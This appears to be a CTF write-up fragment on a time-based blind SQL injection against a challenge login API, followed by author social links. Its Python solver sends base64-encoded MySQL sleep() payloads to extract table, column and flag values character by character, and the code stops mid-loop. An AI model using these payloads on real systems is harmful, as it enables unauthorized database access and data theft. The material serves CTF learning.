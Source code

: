 Given that the login request with the Time-Based payload was successfully executed for 10 seconds according to the payload. Let's construct a payload to extract the table, column, and exfiltrate its flag, primarily sourced from [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md).

Here is the solver I used.

``` python
import requests
import json
import base64
import time
from urllib.request import urljoin
from string import ascii_lowercase, ascii_uppercase, digits

URL = "http://tokyo.ctf.protergo.party:10002"
Token = "/api/token"
Login = "/api/login"
charset = ascii_lowercase + digits + ",}{.:!@$^&*()#"

class Exploit:
	def __init__(self, url=URL):
		self.url = url
		self.session = requests.Session()

	def getToken(self):
		hitToken = self.session.get(urljoin(self.url, Token))
		return json.loads(hitToken.text)["data"]["token"]

	def blind(self):
		table = ""
		column = ""
		flag = ""
		idx = 1
		error = 0
		while (error < 70):
			for char in charset:
				start = time.time()
				token = self.getToken()
				
				# Find tables charset without ascii_uppercase and underscore "_"
				# sqli = base64.b64encode("' or (select sleep(3) from dual where (select table_name from information_schema.tables where table_schema=database() and table_name like '{}%' limit 0,1) like binary '%')#".format(table + char).encode())
				
				# Find column charset without ascii_uppercase
				# sqli = base64.b64encode("' or (select sleep(3) from dual where (select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 1,1) like binary '{}%')#".format(column + char).encode())
				
				# Exfiltrate Flag charset without ascii_uppercase and underscore "_"
				# https://lightless.me/archives/sqli-cheat-sheet.html
				sqli = base64.b64encode("' or (select if((select substr(fl4g_c0lumn5,{},1) from flag limit 0,1) = '{}', sleep(3), null))#".format(idx, char).encode())

				payload = {"username":sqli,"password":"x","token":token}
				execute = self.session.post(urljoin(self.url, Login), data=payload)
				end = time.time()
				timebased = int(end - start)
				if timebased == 3:
					# table += char
					# print(f"[+] Table = {table}")
				
					# column += char
					# print(f"[+] Column = {column}")
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn